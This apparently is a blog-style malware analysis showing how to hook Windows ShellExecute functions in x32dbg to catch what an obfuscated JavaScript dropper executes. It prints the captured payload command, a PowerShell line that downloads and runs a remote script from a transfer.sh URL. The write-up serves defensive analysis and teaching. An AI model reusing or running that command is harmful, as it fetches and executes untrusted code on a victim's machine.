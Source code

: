 Analysis of a JavaScript loader by hooking Windows API functions.

`Hash: a3937eb4681dc2a090360d9220c42ca25b51075542902a647839fe5f3c892097`

`Sample: https://bazaar.abuse.ch/sample/a3937eb4681dc2a090360d9220c42ca25b51075542902a647839fe5f3c892097/#intel`

***Overview***

Obfuscated JavaScript dropper which downloads the next stage for a Trojan. When trying to view the JavaScript, we can see that it is highly obfuscated.

![image](https://user-images.githubusercontent.com/95584654/159395273-2e779564-f2f4-4ab7-84b5-6b3368709c5e.png)

While we could try and figure out how to deobfuscate the loader, we can bypass this by hooking Windows API functions from shell32.dll.

We can use x32dbg to hook functions like ShellExecuteExW and or ShellExecuteExA to catch the loader before it executes any commands to reach out and download the next stage.

Review my other blog post [here](https://koi0x.github.io/Hooking-Windows-API-Functions-to-Analyze-JavaScript-VBScript-loaders/) for a reference.

***Debugging The Loader***

Firstly, we need to load wscript.exe into x32dbg. We need to do this because wscript.exe is the application that will act as the proxy between the JavaScript loader and the Windows API. You can find this in `C:\Windows\SysWOW64\wscript.exe`

Next, edit the command line to pass in the loader to be run with wscript.exe. Do this by going to `File -> Change Command Line`

Set a breakpoint on shell32.dll. We need to break when the DLL is loaded into memory so we can then set breakpoints on the imports.

![image](https://user-images.githubusercontent.com/95584654/159395305-f681217b-dbae-4c9f-89dd-73fa665030d9.png)

Now we need to set breakpoints on common function calls that are used to execute shell commands. Navigate to the symbols page and find shell32.dll and then search for ShellExecute. This will return all of the Windows API functions that will execute shell commands. Remember that we do not know what function is exactly being used in the loader. Given this, it is best practice to set breakpoints on all of them to have a fallback.

![image](https://user-images.githubusercontent.com/95584654/159395358-27c03409-731b-40e9-b1ec-cf89e11f831a.png)

Now with the breakpoint set, we can go ahead and continue the execution of the loader. At this point, we will hit a breakpoint on the function ShellExecuteExW.

![image](https://user-images.githubusercontent.com/95584654/159395404-7b326a99-5ce4-4366-9f7b-a4ffb7619322.png)

At this point, we can look at the current stack frame to see the parameters that are being passed into the ShellExecuteExW function. Reviewing the stack frame, we can see the loader is calling the following:

`Powershell.exe IEX(New-Object Net.Webclient).DownloadString('https://transfer.sh/get/kVRjSF/ttttyyyyyyy.ps1')`

![image](https://user-images.githubusercontent.com/95584654/159395443-ccd5d2c5-a97b-463c-90f4-6055c6be2620.png)

While I am not going to look further into this sample chain, I mainly wanted to write this as another example of my other blog post about hooking Windows API functions to analyze JavaScript and VBS loaders.

